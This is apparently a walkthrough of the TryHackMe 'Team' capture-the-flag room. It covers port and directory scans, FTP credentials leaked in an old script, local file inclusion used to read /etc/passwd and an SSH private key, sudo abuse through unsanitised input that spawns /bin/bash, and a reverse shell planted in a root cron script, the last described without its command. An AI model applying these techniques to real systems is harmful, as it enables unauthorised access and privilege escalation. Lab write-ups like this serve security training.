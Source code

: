 # [Team](https://tryhackme.com/room/teamcw)

First of all, `nmap`

```
# Nmap 7.91 scan initiated Mon Jul 19 06:33:33 2021 as: nmap -vvv -p 21,22,80 -sCV -oN init.nmap 10.10.192.187
Nmap scan report for box.ip (10.10.192.187)
Host is up, received syn-ack (0.24s latency).
Scanned at 2021-07-19 06:33:34 UTC for 16s

PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 79:5f:11:6a:85:c2:08:24:30:6c:d4:88:74:1b:79:4d (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDRK/xFh/H4lC7shWUUvK9lKxd3VO2OwfsC8LjFEU2CnEUrbVCnzx8jiVp5gO+CVAj63+GXkbIuXpynlQ/4j1dXdVUz/yAZ96cHiCNo6S5ThONoG2g2ObJSviCX2wBXhUJEzW07mRdtx4nesr6XWMj9hwIlSfSBS2iPEiqHfGrjp14NjG6Xmq5hxZh5Iq3dBrOd/ZZKjGsHe+RElAMzIwRK5NwFlE7zt7ZiANrFSy4YD4zerNSyEnjPdnE6/ArBmqOFtsWKZ2p/Wc0oLOP7d6YBwQyZ9yQNVGYS9gDIGZyQCYsMDVJf7jNvRp/3Ru53FMRcsYm5+ItIrgrx5GbpA+LR
|   256 af:7e:3f:7e:b4:86:58:83:f1:f6:a2:54:a6:9b:ba:ad (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBM4d9TCz3FkEBEJ1VMjOsCrxsbS3YGb7mu9WgtnaFPZs2eG4ssCWz9nWeLolFgvHyT5WxRT0SFSv3vCZCtN86I=
|   256 26:25:b0:7b:dc:3f:b2:94:37:12:5d:cd:06:98:c7:9f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHUxjoul7JvmqQMtGOuadBwi2mBVCdXhJjoG5x+l+uQn
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works! If you see this add 'te...
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jul 19 06:33:50 2021 -- 1 IP address (1 host up) scanned in 16.48 seconds
```

Checking the page out port 80 and its source, we're told to add `team.thm` to our `/etc/hosts` ...

![](./1.png)

... so let's do that and run take another look.

Going to `/robots.txt`, we see a single name "dale" which is not the name of a directory/file so let's note this as a username.

Let's run `gobuster`.

```sh
$ gobuster dir -u 'http://team.thm/' -w ~/tools/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -x php

/images               (Status: 200) [Size: 755]
/scripts              (Status: 403) [Size: 273]
/assets               (Status: 403) [Size: 273]
/server-status        (Status: 403) [Size: 273]
```

The `/scripts` and `/assets` sound interesting, so let's run `gobuster` on them.

```sh
$ gobuster dir -u 'http://team.thm/scripts/' -w ~/tools/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt

/script.txt           (Status: 200) [Size: 597]
```

Here we have the file `/scripts/script.txt`

```sh
#!/bin/bash
read -p "Enter Username: " REDACTED
read -sp "Enter Username Password: " REDACTED
echo
ftp_server="localhost"
ftp_username="$Username"
ftp_password="$Password"
mkdir /home/username/linux/source_folder
source_folder="/home/username/source_folder/"
cp -avr config* $source_folder
dest_folder="/home/username/linux/dest_folder/"
ftp -in $ftp_server <<END_SCRIPT
quote USER $ftp_username
quote PASS $decrypt
cd $source_folder
!cd $dest_folder
mget -R *
quit

# Updated version of the script
# Note to self had to change the extension of the old "script" in this folder, as it has creds in
```

The file tells us there's and *old version* of this script in the same folder. If you ran `gobuster` with the `-d` flag, it should have also got you this old file named `script.old`. Within this file are credentials which we can use to log into  FTP.

```
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    5 65534    65534        4096 Jan 15  2021 .
drwxr-xr-x    5 65534    65534        4096 Jan 15  2021 ..
-rw-r--r--    1 1002     1002          220 Apr 04  2018 .bash_logout
-rw-r--r--    1 1002     1002         3771 Apr 04  2018 .bashrc
drwxrwxr-x    3 1002     1002         4096 Jan 15  2021 .local
-rw-r--r--    1 1002     1002          807 Apr 04  2018 .profile
drwx------    2 1002     1002         4096 Jan 15  2021 .ssh
drwxrwxr-x    2 65534    65534        4096 Jan 15  2021 workshare

ftp> cd workshare
250 Directory successfully changed.

ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxr-x    2 65534    65534        4096 Jan 15  2021 .
drwxr-xr-x    5 65534    65534        4096 Jan 15  2021 ..
-rwxr-xr-x    1 1002     1002          269 Jan 15  2021 New_site.txt
226 Directory send OK.

ftp> get New_site.txt
```

We see a `.ssh` folder so I tried uploading my SSH key there to hopefully get an SSH shell but the directory is write-protected and so we can't write to it. The file "New_site.txt" though, holds an interesting message.

```
Dale
	I have started coding a new website in PHP for the team to use, this is currently under development. It can be
found at ".dev" within our domain.

Also as per the team policy please make a copy of your "id_rsa" and place this in the relevent config file.

Gyles
```

We have another potential username "gyles", as well a `.dev` to check out. Going to `/dev` and `/.dev` return nothing, but adding `dev.team.thm` in `/etc/hosts` and going to the page gives us another site.

![dev.team.thm](dev.png)

It points us to a page with local file inclusion. Replacing `teamshare.php` with `/etc/passwd` confirms this. Looking back at a previous message from the admins, we know that one or both of the users dale and gyles have an SSH key we can find and use, so let's try some known SSH files.

```
/home/dale/.ssh/id_rsa
/home/gyles/.ssh/id_rsa
/etc/ssh/sshd_config
```

We can find dale's private SSH key in the file `/etc/ssh/sshd_config`. We can grab the key from the comments at the bottom and SSH in.

```sh
dale@TEAM:~$ sudo -l
Matching Defaults entries for dale on TEAM:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dale may run the following commands on TEAM:
    (gyles) NOPASSWD: /home/gyles/admin_checks
```

A quick `sudo -l` shows us we can escalate to gyles using `/home/gyles/admin_checks`. The contents of that files is as follows:

```sh
#!/bin/bash

printf "Reading stats.\n"
sleep 1
printf "Reading stats..\n"
sleep 1
read -p "Enter name of person backing up the data: " name
echo $name  >> /var/stats/stats.txt
read -p "Enter 'date' to timestamp the file: " error
printf "The Date is "
$error 2>/dev/null

date_save=$(date "+%F-%H-%M")
cp /var/stats/stats.txt /var/stats/stats-$date_save.bak

printf "Stats have been backed up\n"
```

Here we see that the variable `$error`can be used to run another program, which we'll enter `/bin/bash` to get a shell.

```
dale@TEAM:~$ sudo -u gyles  /home/gyles/admin_checks
Reading stats.
Reading stats..
Enter name of person backing up the data: a
Enter 'date' to timestamp the file: /bin/bash
The Date is l
id
uid=1001(gyles) gid=1001(gyles) groups=1001(gyles),1003(editors),1004(admin)
```

With that, we have a shell as gyles. Looking at his home directory, we see a `.bash_history`.

```sh
gyles@TEAM:~$ cd /home/gyles/
gyles@TEAM:/home/gyles$ ls -la
total 48
drwxr-xr-x 6 gyles gyles   4096 Jan 17 19:47 .
drwxr-xr-x 5 root  root    4096 Jan 15  2021 ..
-rwxr--r-- 1 gyles editors  399 Jan 15  2021 admin_checks
-rw------- 1 gyles gyles   5639 Jan 17 20:34 .bash_history
-rw-r--r-- 1 gyles gyles    220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 gyles gyles   3771 Apr  4  2018 .bashrc
drwx------ 2 gyles gyles   4096 Jan 15  2021 .cache
drwx------ 3 gyles gyles   4096 Jan 15  2021 .gnupg
drwxrwxr-x 3 gyles gyles   4096 Jan 15  2021 .local
-rw-r--r-- 1 gyles gyles    807 Apr  4  2018 .profile
drwx------ 2 gyles gyles   4096 Jan 15  2021 .ssh
-rw-r--r-- 1 gyles gyles      0 Jan 17  2021 .sudo_as_admin_successful
```

Checking it, we see an interesting file: `/usr/local/bin/main_backup.sh`. Since this this a backup script, and we see `crontab` being run in the history, it's safe to assume this file is run periodically as a cron job, so let's put in it a reverse shell and see what happens.

After some time, we get a reverse shell as root! That's it for this box.
